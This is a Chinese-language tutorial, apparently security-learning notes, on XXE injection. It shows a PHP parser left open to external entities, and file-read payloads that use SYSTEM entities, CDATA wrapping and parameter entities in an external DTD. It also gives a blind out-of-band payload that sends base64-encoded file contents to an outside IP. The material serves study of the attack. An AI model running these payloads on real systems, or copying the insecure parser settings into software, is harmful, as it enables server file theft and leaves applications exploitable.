# XXE

## 基本的XML结构：

```
<?xml version="1.0" encoding="utf-8"?>			
<!DOCTYPE name [
	<!ELEMENT thing ANY>
	<!ENTITY arg "value">
]>
<thing>
	&arg;
</thing>
```

第一行表示这个一个XML。

第二-第四行是DTD，即文档约束，定义这个XML文档的一些结构啊属性啊实体啊什么的。这个ELEMENT表示body中的元素标签的名字，这里指定名字为thing，ANY表示接受任何元素。真正用的时候，可以不写ELEMENT也一样可以用XML。

在XXE中对于我们来说最有用的就是实体ENTITY。实体就像是在XML里的变量。上面就是定义了一个名为arg值为value的实体。

后面就是XML的body了。需要一个标签括起来，标签名就写上面ELEMENT定义的名字，如果上面没写，这里写啥都行。然后&arg;就是引用了实体arg。类似于用变量一样。

php解析XML的简单代码：

```
<?php
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```

测试，将我们写的XXE发过去，可以看到直接输出了内容，这在XXE攻击里面叫“有回显的XXE”：




## 实体读取文件

上面的实体只是存了一个字符串，其实可以读取文件的，只需要加多一个 SYSTEM关键字，表示读取文件：

```
<!ENTITY arg SYSTEM "C:/flag.txt">
```



但是如果文件中有标签就么得了，比如文件内容为：





这是因为，在XML中引用进来的文件是会被解析的，我们读取的文件有标签，就会被解析器解析，解析完后发现这个XML格式不对劲，就会报错。

## CDATA的使用

好在我们有神器 CDATA ，加入了这个的话，就会告诉解析器里面的内容不需要解析：

```
<![CDATA[
	<one>a
	<two>b
]]>
```



既然如此，实体在body里会被解析，那我们读取文件的时候，拼接起来不就好了嘛，就像这样：



可惜现实给了我们一个大嘴巴子：



这是因为，在XML中，不能在一个XML中进行拼接，要拼接的话需要在另一个XML中拼接，拼完后再在原来的XML中进行调用，这个方式叫做引用其他实体。要是没看懂，先大概知道，继续往下看即可。

但是不是什么实体都可以引用外部实体的，这里引出一个参数实体的概念，参数实体可以引用别的实体，只能在DTD用，就是不能在body用。

## 参数实体与CDATA

参数实体格式（就是比普通的实体多了一个 % ）：

```
<!ENTITY % 名字 "值">
```

没看懂的话就看下面的图：

（1）参数实体只能在DTD中使用：



（2）参数实体可以拼接实体，由于XML的特性，只能在另一个XML中进行拼接，拼好了原XML再用参数实体拉过来：



其中 e.dtd 的内容还挺好理解。burp中第7行是将e.dtd的内容拉过来，但是拉过来是要执行的，所有第8行的 %out; 就是为了执行拉过来的e.dtd的内容。这样子我们就可以完成拼接了。

将拼接内容改成“CDATA”试试：




## Blind OOB XXE

即无回显的XXE，这种很常见，比较解析XML一般也不是直接呈现给用户的。

XML实体中，SYSTEM也可以发起请求：

 

我们来尝试读取flag.txt文件，这里由于是在url中的get请求，如果读取文件有回车换行什么的会报错。所以用php为协议将其base64编码一下。就不会有这些奇怪问题。（上面的好像也可以用base64编码来解决）



发现报错了。。这。。。

%content;没有被正确解析，除非我们再嵌套一个 ENTITY 进去，才可以解析：

```
<!ENTITY % out "<!ENTITY % go SYSTEM 'http://192.168.0.105?id=%content;'>">
```



这里又报错了，说的是实体里的值，不能有 % 这个符号，不过我们可以利用HTML实体化编码，XML也能识别：

```
<!ENTITY % out "<!ENTITY &#37; go SYSTEM 'http://192.168.0.105?id=%content;'>">
```



这里报的错是不能在一个XML里拼接实体，我们把它放到另一个XML里然后SYSTEM拉过来即可：

